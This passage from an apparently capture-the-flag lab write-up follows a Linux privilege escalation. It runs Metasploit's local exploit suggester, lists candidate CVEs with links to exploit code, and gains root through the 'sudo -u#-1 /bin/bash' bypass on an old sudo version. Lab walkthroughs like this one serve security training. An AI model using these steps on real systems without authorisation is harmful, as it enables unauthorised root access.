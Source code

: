 ```bash

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits


View the full module info with the info, or info -d command.

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.232.159 - Collecting local exploits for x86/linux...
```

We get several exploit, but none is accepted:

```bash
[CVE-2021-4034]
[CVE-2021-3156]
[CVE-2021-3156]
[CVE-2018-18955]
[CVE-2021-22555]
https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
[CVE-2019-18634]
https://dylankatz.com/Analysis-of-CVE-2019-18634/
[CVE-2019-15666]
[CVE-2017-5618]
[CVE-2017-0358]
```

```bash
james@agent-sudo:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Let's try this technique:

https://steflan-security.com/linux-privilege-escalation-vulnerable-sudo-version/

```bash
james@agent-sudo:~$ sudo -u#-1 /bin/bash
[sudo] password for james:
root@agent-sudo:~#
```


